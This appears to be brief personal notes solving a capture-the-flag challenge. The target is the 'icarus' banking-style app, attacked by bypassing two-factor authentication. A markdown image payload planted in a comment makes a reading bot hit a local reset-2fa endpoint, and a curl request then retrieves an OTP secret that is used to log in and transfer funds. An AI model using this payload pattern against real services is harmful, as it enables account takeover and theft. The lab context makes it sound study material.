 https://aswingovind.medium.com/2-factor-authentication-bypass-3b2bbd907718



icarus - 1ea8b3ac0640e44c27b3cb8a258a87f8


1. login and verify a user
2. send a transaction to icarus with a 'posonus' image in the comment box --> the bot which reads over the comments is icarus' user
	1. `![](http://127.0.0.1/reset-2fa/?otp.jpg)`
3. `curl -vv 'http://127.0.0.1:1337/reset-2fa/?otp.jpg' -H 'Host: 127.0.0.1'`
4. use found qr-otpkey-code _H5CDCLQLFYQQOKSI_ to generate a new password in google authenticator
5. login as icarus and transfer the money
6. and pwned:
![[Screenshot 2022-05-19 at 07.51.00.png]]
